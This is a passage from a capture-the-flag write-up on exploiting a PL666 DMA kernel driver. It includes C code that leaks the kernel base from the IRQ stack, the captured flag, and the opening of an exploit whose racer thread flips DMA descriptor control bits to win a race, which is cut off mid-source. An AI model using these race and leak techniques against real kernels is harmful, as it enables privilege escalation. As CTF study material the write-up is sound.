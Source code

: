 ```c
        buf[1].size = size;
        buf[1].ctrl = PL666_LLI_MORE;
        return read(fd, buf, sizeof(struct lli) * 2);
    }
```

The only other change I made to the exploit was to modify the address used to
leak from the IRQ stack. I think the change in the number of DMA transactions
done in the second exploit causes the IRQ stack to populate differently, but I'm
not sure.
```c
    uint64_t* kstack_leak = read_kernel(secfd, 0xffff800010003ee8, 16);
    printf("##\t%p:%p (%p)\n",0xffff800010003ee8, kstack_leak[0], kstack_leak[0] - 0xf11aa0);
    uint64_t kernel_base =  kstack_leak[0] - 0xf11aa0;
```

Unfortunately, I didn't notice that I'd switched to using the old driver when
rebuilding the initrd to give me a root shell (to check proc kallsyms). I
got super frustrated when my exploit stopped working and wound up passing out at
8am. I woke up 5 minutes after the CTF ended and landed it immediately.

Nevertheless, the flag was 

    SaF{Sometimes Science Is More Art Than Science}

## Part 1 Exploit
```c
#include <stdio.h>
#include <fcntl.h>
#include <stdint.h>
#include <pthread.h>
#include <sys/mman.h>
#include <stdio.h>
#include <sys/ptrace.h>

#define MAX_LLI 8
struct lli{
    uint64_t src;
    uint64_t dst;
    uint32_t size;
    uint32_t ctrl;
};
#define PL666_LLI_MORE 0x0001
#define PL666_LLI_READ 0x0002

volatile uint64_t racer_run  = 0;
struct racer_arg {
    struct lli * arg;
    uint64_t flag;
};
struct lli * buf = NULL;
void * a   = NULL;

void * racer(void * arg) {
    struct racer_arg * targ = arg;
    volatile struct lli * arg_buf = targ->arg;
    while(1) {
        printf("(Thread 2): Waiting\n");
        while(!racer_run) {};
        printf("(Thread 2): Running\n");
        while(racer_run){
            __atomic_store_n(&(arg_buf[0].ctrl), PL666_LLI_MORE, __ATOMIC_SEQ_CST);
        }
    }
    printf("(Thread 2): Done racer\n");
```